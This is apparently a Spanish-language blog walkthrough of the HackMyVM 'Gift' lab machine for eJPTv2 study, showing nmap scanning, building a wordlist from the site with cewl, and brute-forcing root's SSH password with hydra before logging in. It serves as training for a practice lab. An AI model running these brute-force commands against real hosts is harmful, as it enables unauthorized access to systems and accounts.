 ```yaml
---
layout: post
title: "Write Up Gift. "
subtitle: "eJPTv2 Track "
category: Blog
tags: [Easy,Genin,Linux,HMVM,Hydra,Cewl,Brute-Forcing,Reconnaissance,eJPTv2]
image:
  path: /assets/img/gift/gift-.png
---
```


***

<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### Ping Sweep


```bash
sudo arp-scan -I ens33 --localnet
```


![list](/assets/img/gift/gift.png){:.lead width="800" height="100" loading="lazy"}


### Nmap


```bash
nmap --open -p- -Pn -n -T4 -vvv -n 10.10.0.152 -oN allports
```


![list](/assets/img/gift/nmap.png){:.lead width="800" height="100" loading="lazy"}


***

### Services and Versions


```bash
nmap -sVC -Pn -n -p22,80 10.10.0.152 -oN target
```


![list](/assets/img/gift/3.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis 


### HTTP TCP-80


Aunque tenemos dos puerto en el pueto 22 no podemos hace nada de momento, asi que nos vamos a concentrar en el puerto 80, si usamos herramientas como **whatweb** o **wappalizer**, no coseguiremos nada solo vemos un mesale que dice **Dont Overthink. Really, Its simple.**, este pundo podemos tratar de fuzzear con **Gobuster** o algoa si pero como hemos venido onserbando se suelen usar credenciales por defecto ademas que vamos hacer un pequeño diccionario con el contenido de la web. 


![list](/assets/img/gift/4.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Web.


Con la herramienta **Cewl** creamos un pequeño diccionario.


```bash
 cewl --with-numbers 10.10.0.152 -w dicWEB
```

![list](/assets/img/gift/5.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Diccionario.


Ya con esto vamos a probar el usuario en el diccionario con **Hydra** de la siguiente forma, y los parámetros **-t** son los hilos que vamos a usar, **-l** para las letras minúsculas del usuario. Si tuviéramos una lista, usaríamos **-L**. Además, el parámetro **-f** es para que el programa se detenga cuando encuentre la primera coincidencia.


```bash
sudo hydra -l root -t 64 -P dicWEB ssh://10.10.0.152 -f
```


![list](/assets/img/gift/6.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El usuario **root** y la contraseña es **simple**.


***
## Exploitation

Con esta credenciales ya podemos conectarnos al servicio ssh en el puerto 22.


```bash
ssh root@10.10.0.152
```


![list](/assets/img/gift/8.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Como esta maquina es facil las dos flags estan el escritorio de root.

***

{:.note title="Attention"}
En el siguiente enlace te dejo el [AutoPwn](https://github.com/4xLoff/Python-Scripting/blob/main/giftPwn.py) de esta máquina hecho en Python.


***

```bash
🎉 Felicitaciones ya has comprometido Gift de Hack My VM 🎉
```
{:.centered}

***

Back to [Certification eJPTv2 ](2023-06-02-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}
